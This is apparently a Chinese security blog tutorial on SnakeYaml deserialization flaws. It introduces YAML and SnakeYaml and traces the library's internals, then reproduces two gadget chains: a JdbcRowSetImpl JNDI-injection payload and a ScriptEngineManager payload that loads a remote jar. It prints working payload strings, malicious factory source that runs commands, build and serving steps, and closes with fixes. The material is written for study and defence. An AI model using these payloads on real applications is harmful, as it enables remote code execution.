








Java 安全之 SnakeYaml 漏洞分析与利用


# Java 安全之 SnakeYaml 漏洞分析与利用

## 1\. 简介

SnakeYaml 是 Java 中解析 yaml 的库，而 yaml 是一种人类可读的数据序列化语言，通常用于编写配置文件等。

**yaml 基本语法**：

*   大小写敏感
*   使用缩进表示层级关系
*   缩进只允许使用空格
*   `#`表示注释
*   支持对象、数组、纯量这 3 种数据结构

**示例**：  
yaml 对象：

```plain
key: 
    child-key: value
    child-key2: value2
```

yaml 数组：

```plain
companies:
    -
        id: 1
        name: company1
        price: 200W
    -
        id: 2
        name: company2
        price: 500W
```

意思是 companies 属性是一个数组，每一个数组元素又是由 id、name、price 三个属性构成  
详细参考：[https://www.runoob.com/w3cnote/yaml-intro.html](https://www.runoob.com/w3cnote/yaml-intro.html)

**SnakeYaml 库**：  
SnakeYaml 提供了 yaml 数据和 Java 对象相互转换的 API，即能够对数据进行序列化与反序列化。

*   Yaml.load():将 yaml 数据反序列化成一个 Java 对象
*   Yaml.dump():将 Java 对象序列化成 yaml

## 2\. 示例

环境：JDK1.8\_66  
Maven 导入依赖：

```plain
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.27</version>
</dependency>
```

**序列化：**  
Person 类：

```plain
package SnakeYaml;

public class Person {
    private String username;
    private int age;

    public Person() {}
    public Person(String username, int age) {
        this.username = username;
        this.age = age;
    }

    public int getAge() {
        return age;
    }

    public String getUsername() {
        return username;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setUsername(String username) {
        this.username = username;
    }
}
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class SnakeYamlTest {
    public static void main(String[] args) {
        Yaml yaml = new Yaml();
        Person person = new Person("mike", 18);
        String str = yaml.dump(person);
        System.out.println(str);
    }
}
```

输出结果：

```plain
!!SnakeYaml.Person {age: 18, username: mike}
```

注：这里的!! 应该类似于一个标识符，表示对应的类名  
注：**序列化过程会触发类属性对应的 get 方法**  
**反序列化**：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class SnakeYamlTest {
    public static void main(String[] args) {
        // 反序列化
        String str = "!!SnakeYaml.Person {age: 18, username: mike}";
        Yaml yaml = new Yaml();
        Person person = (Person) yaml.load(str);
        System.out.println(person);
    }
}
```

输出结果：

```plain
SnakeYaml.Person@48533e64
```

注：**反序列化过程会触发类属性对应的 set 方法**

## 3\. 漏洞复现与分析

### JdbcRowSetImpl 链

**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
使用工具开启 LDAP 服务

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

POC:

```plain
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest1 {
    public static void main(String[] args) {
        String poc = "!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

函数调用栈：

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4067, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
set:77, MethodProperty (org.yaml.snakeyaml.introspector)
constructJavaBean2ndStep:285, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:171, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
main:9, PocTest1 (SnakeYaml)
```

一步一步走流程，先来到 Yaml 类中的 load 方法

```plain
public <T> T load(String yaml) {
    // 实例化一个 StreamReader 对象
    return this.loadFromReader(new StreamReader(yaml), Object.class);
}
```

继续来到 Yaml 类中的 loadFromReader 方法

```plain
private Object loadFromReader(StreamReader sreader, Class<?> type) {
    Composer composer = new Composer(new ParserImpl(sreader), this.resolver, this.loadingConfig);
    this.constructor.setComposer(composer);
    // 进入这里
    return this.constructor.getSingleData(type);
}
```

进入 BaseConstructor 的 getSingleData 方法

```plain
public Object getSingleData(Class<?> type) {
    // 获取单个 Node 对象，用于表示 Yaml 文档中的一个节点
    Node node = this.composer.getSingleNode();
    // 检查获取的节点是否存在且不是空标签
    if (node != null && !Tag.NULL.equals(node.getTag())) {
        if (Object.class != type) {
            node.setTag(new Tag(type));
        } else if (this.rootTag != null) {
            node.setTag(this.rootTag);
        }
        // 将节点转换成 Java 对象并且返回
        // 进入这里
        return this.constructDocument(node);
    } else {
        // 获取与空标签关联的 Construct 实例，并且将其实例化返回
        Construct construct = (Construct)this.yamlConstructors.get(Tag.NULL);
        return construct.construct(node);
    }
}
```

继续进入 constructDocument 函数看看如何转换成 Java 对象的

```plain
protected final Object constructDocument(Node node) {
    Object var3;
    try {
        // 将 yaml 节点转换成 Java 对象
        // 进入这里
        Object data = this.constructObject(node);
        // 递归，通常在 yaml 文档包含嵌套结构时使用
        this.fillRecursive();
        var3 = data;
    } catch (RuntimeException var7) {
        if (this.wrappedToRootException && !(var7 instanceof YAMLException)) {
            throw new YAMLException(var7);
        }

        throw var7;
    } finally {
        this.constructedObjects.clear();
        this.recursiveObjects.clear();
    }

    return var3;
}
```

继续查看 constructObject 函数

```plain
protected Object constructObject(Node node) {
    // 判断当前属性中是否存在与当前节点对应的 Java 对象，如果存在则返回该对象，如果不存在则调用 constructObjectNoCheck 方法创建
    return this.constructedObjects.containsKey(node) ? this.constructedObjects.get(node) : this.constructObjectNoCheck(node);
}
```

这里的 this.constructedObjects 属性中并没有对应的节点，所以只能调用 constructObjectNoCheck 函数创建

```plain
protected Object constructObjectNoCheck(Node node) {
    // 表示当前节点是一个无法构造的递归节点，即不能与其他节点相互引用
    if (this.recursiveObjects.contains(node)) {
        throw new ConstructorException((String)null, (Mark)null, "found unconstructable recursive node", node.getStartMark());
    } else {
        // 将当前节点添加到 recursiveObjects 属性中，以便后续检查是否存在递归引用
        this.recursiveObjects.add(node);
        // 使用 getConstructor 方法获取当前节点的构造器
        Construct constructor = this.getConstructor(node);
        // 如果 constructedObjects 属性中存在与当前节点对应的 Java 对象，则返回该对象。如果不存在，则调用 constructor.construct 方法构造 Java 对象
        // 进入这里
        Object data = this.constructedObjects.containsKey(node) ? this.constructedObjects.get(node) : constructor.construct(node);
        // 在构造对象之后，调用 finalizeConstruction 方法对其进行后续处理，例如检查是否存在未解析的属性、设置默认值等
        this.finalizeConstruction(node, data);
        // 将当前节点和对应的 Java 对象存储在 constructedObjects 属性中，以便在后续处理中使用
        this.constructedObjects.put(node, data);
        // 将当前节点从 recursiveObjects 属性中移除，以便在后续处理中不再检查是否存在递归引用
        this.recursiveObjects.remove(node);
        //如果当前节点需要两步构造，则调用 constructor.construct2ndStep 方法完成第二步构造
        if (node.isTwoStepsConstruction()) {
            constructor.construct2ndStep(node, data);
        }

        return data;
    }
}
```

这里的 constructor 是 ConstructYamlObject 对象，查看其 construct 方法

```plain
public Object construct(Node node) {
    try {
        // 使用 getConstructor 方法获取当前节点的构造器
        return this.getConstructor(node).construct(node);
    } catch (ConstructorException var3) {
        throw var3;
    } catch (Exception var4) {
        throw new ConstructorException((String)null, (Mark)null, "Can't construct a java object for " + node.getTag() + "; exception=" + var4.getMessage(), node.getStartMark(), var4);
    }
}
```

获取到的构造器是 ConstructMapping 对象，进入其 construct 函数

```plain
public Object construct(Node node) {
    // 将 node 转换为 MappingNode 类型
    MappingNode mnode = (MappingNode)node;
    // 如果当前节点的类型是 Map 或其子类，则调用 newMap 或 constructMapping 方法构造 Java 对象
    if (Map.class.isAssignableFrom(node.getType())) {
        return node.isTwoStepsConstruction() ? Constructor.this.newMap(mnode) : Constructor.this.constructMapping(mnode);
    } else if (Collection.class.isAssignableFrom(node.getType())) {
        // 如果当前节点的类型是 Collection 或其子类，则调用 newSet 或 constructSet 方法构造 Java 对象，并返回该对象
        return node.isTwoStepsConstruction() ? Constructor.this.newSet(mnode) : Constructor.this.constructSet(mnode);
    } else {
        // 如果当前节点的类型不是 Map 或 Collection 的子类，则调用 newInstance 方法创建一个新的 Java 对象，并返回该对象
        Object obj = Constructor.this.newInstance(mnode);
        // 如果当前节点需要两步构造，则调用 constructJavaBean2ndStep 方法完成第二步构造。如果不需要两步构造，则直接返回构造的 Java 对象
        return node.isTwoStepsConstruction() ? obj : this.constructJavaBean2ndStep(mnode, obj);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204356-1101548e-39d7-1.png)  
在 constructJavaBean2ndStep 函数中，会获取 yaml 格式数据中的属性键值对，调用 property.set() 来设置上面实例化对象的属性  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204419-1ecd2fac-39d7-1.png)  
在 MethodProperty 类的 set 方法中，获取了响应属性的方法进行 invoke

```plain
public void set(Object object, Object value) throws Exception {
    if (!this.writable) {
        throw new YAMLException("No writable property '" + this.getName() + "' on class: " + object.getClass().getName());
    } else {
        // 这里
        this.property.getWriteMethod().invoke(object, value);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204440-2b4f233e-39d7-1.png)  
即会调用 JdbcRowSetImpl 的 setAutoCommit 方法，这样就成功触发了 JdbcRowSetImpl 链和 JNDI 注入了

### ScriptEngineManager 链

**什么是 SPI 机制**  
SPI(Service Provider Interface), JDK 内置的一种服务提供发现机制。它的利用方式是通过在 ClassPath 路径下的`META-INF/services`文件夹下查找文件，自动加载文件中所定义的类  
例如以 mysql-connector 包为例：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204502-3879ac82-39d7-1.png)  
而 Dirver 类中的内容是：

```plain
package com.mysql.cj.jdbc;

import java.sql.DriverManager;
import java.sql.SQLException;

public class Driver extends NonRegisteringDriver implements java.sql.Driver {
    public Driver() throws SQLException {
    }

    static {
        try {
            DriverManager.registerDriver(new Driver());
        } catch (SQLException var1) {
            throw new RuntimeException("Can't register driver!");
        }
    }
}
```

这个 Driver 类实现了 java.sql.Driver 接口，这段代码主要是将当前类的实例注册为 MySQL 数据库的驱动程序，实现了一个 MySQL 数据库的 Java 驱动程序，这个方法会在 JVM 启动时执行，从而确保了该驱动程序在应用程序启动时已经被注册。当应用程序需要连接 MySQL 数据库时，可以通过 DriverManager 类的 getConnection() 方法获取 com.mysql.cj.jdbc.Driver 类的实例，进而建立 MySQL 数据库连接  
**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
POC：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tlk0u6qn.eyes.sh\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

dnslog 平台出现请求记录，用于验证是否存在该漏洞且 ScriptEngineManager 链是否可用

**命令执行**：  
现成的利用项目：[https://github.com/artsploit/yaml-payload.git](https://github.com/artsploit/yaml-payload.git)  
更改里面的命令执行代码，使用以下命令进行编译即可

```plain
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

注意：一定要使用一致的 java 版本进行编译  
其中在 META/services 文件夹的文件中，里面的内容即是我们的恶意类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204529-48df84c0-39d7-1.png)  
在 AwesomeScriptEngineFactory 类中，它实现了 ScriptEngineFactory 接口

```plain
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            // Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            // Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

根据上面 mysql 的例子可以猜测到，在 ScriptEngineFactory 类中应该有对我们构造的恶意类实例化的过程，在实例化时会自动调用构造函数从而导致命令执行  
在生成的 jar 文件目录下开启 web 服务

```plain
python -m http.server 8080
```

POC：

```plain
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:8080/yaml-payload.jar"]
  ]]
]
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8080/yaml-payload.jar\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

函数调用栈：

```plain
nextService:381, ServiceLoader$LazyIterator (java.util)
next:404, ServiceLoader$LazyIterator (java.util)
next:480, ServiceLoader$1 (java.util)
initEngines:122, ScriptEngineManager (javax.script)
init:84, ScriptEngineManager (javax.script)
<init>:75, ScriptEngineManager (javax.script)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
construct:570, Constructor$ConstructSequence (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
main:10, PocTest2 (SnakeYaml)
```

前面的大致步骤还是和 JdbcRowSetImpl 链的过程一致，这里的关键在于 Constructor 不一致，这里是 ConstructSequence，在对 ScriptEngineManager 实例化的过程中就会触发命令执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204601-5bd00c30-39d7-1.png)  
接下来就来看一下 ScriptEngineManager 链的利用过程  
首先来到其构造函数，传入的 loader 是 URLClassLoader

```plain
public ScriptEngineManager(ClassLoader loader) {
    init(loader);
}
```

进入 init 函数，都是一些属性的初始化，最后调用 initEngines 函数，传入 loader  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204628-6c17a062-39d7-1.png)  
直到这一步，itr 是 ServiceLoader 对象，会调用其 next 方法

```plain
public S next() {
    if (knownProviders.hasNext())
        return knownProviders.next().getValue();
    // 这里
    return lookupIterator.next();
}
```

lookupIterator 是 ServiceLoader$LazyIterator，调用其 next 方法

```plain
public S next() {
    if (acc == null) {
        // 这里
        // 获取下一个服务对象并将其返回
        return nextService();
    } else {
        // 系统中存在一个安全管理器（SecurityManager 类的一个实例），这时方法需要在特权上下文中运行
        PrivilegedAction<S> action = new PrivilegedAction<S>() {
            public S run() { return nextService(); }
        };
        // 这个方法在特权上下文中执行 PrivilegedAction<S> 对象的 run() 方法，这意味着它拥有 acc 所引用的 SecurityManager 对象授予的权限。run() 方法的结果作为 doPrivileged() 方法的结果返回，进而作为 next() 方法的结果返回
        return AccessController.doPrivileged(action, acc);
    }
}
```

这段代码用于在存在安全管理器的系统中以安全的方式获取下一个服务对象，这里直接进 nextService 函数

```plain
private S nextService() {
    // 检查是否还有下一个服务对象
    if (!hasNextService())
        throw new NoSuchElementException();
    // 获取下一个服务对象的类名
    String cn = nextName;
    nextName = null;
    Class<?> c = null;
    try {
        c = Class.forName(cn, false, loader);
    } catch (ClassNotFoundException x) {
        fail(service,
                "Provider " + cn + " not found");
    }
    // 如果获取类成功，方法将检查该类是否是 service 类型的子类
    if (!service.isAssignableFrom(c)) {
        fail(service,
                "Provider " + cn  + " not a subtype");
    }
    try {
        // 如果该类是 service 类型的子类，方法将会尝试通过 cast 方法创建一个实例对象 p，并将其存储到 providers 集合中
        // 这里
        S p = service.cast(c.newInstance());
        providers.put(cn, p);
        return p;
    } catch (Throwable x) {
        fail(service,
                "Provider " + cn + " could not be instantiated",
                x);
    }
    throw new Error();          // This cannot happen
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204704-817ad4f6-39d7-1.png)  
这里就是 URL 中 jar 包对应的恶意类，其构造方法中就存在命令执行函数

## 4\. 修复

*   禁止 yaml.load 方法中的参数可控
*   使用`Yaml yaml = new Yaml(new SafeConstructor());`  
    在`org\yaml\snakeyaml\constructor\SafeConstructor.class`构造函数中定义了反序列化类的白名单：
    
    ```plain
    public SafeConstructor(LoaderOptions loadingConfig) {
      super(loadingConfig);
      this.yamlConstructors.put(Tag.NULL, new ConstructYamlNull());
      this.yamlConstructors.put(Tag.BOOL, new ConstructYamlBool());
      this.yamlConstructors.put(Tag.INT, new ConstructYamlInt());
      this.yamlConstructors.put(Tag.FLOAT, new ConstructYamlFloat());
      this.yamlConstructors.put(Tag.BINARY, new ConstructYamlBinary());
      this.yamlConstructors.put(Tag.TIMESTAMP, new ConstructYamlTimestamp());
      this.yamlConstructors.put(Tag.OMAP, new ConstructYamlOmap());
      this.yamlConstructors.put(Tag.PAIRS, new ConstructYamlPairs());
      this.yamlConstructors.put(Tag.SET, new ConstructYamlSet());
      this.yamlConstructors.put(Tag.STR, new ConstructYamlStr());
      this.yamlConstructors.put(Tag.SEQ, new ConstructYamlSeq());
      this.yamlConstructors.put(Tag.MAP, new ConstructYamlMap());
      this.yamlConstructors.put((Object)null, undefinedConstructor);
      this.yamlClassConstructors.put(NodeId.scalar, undefinedConstructor);
      this.yamlClassConstructors.put(NodeId.sequence, undefinedConstructor);
      this.yamlClassConstructors.put(NodeId.mapping, undefinedConstructor);
    }
    ```
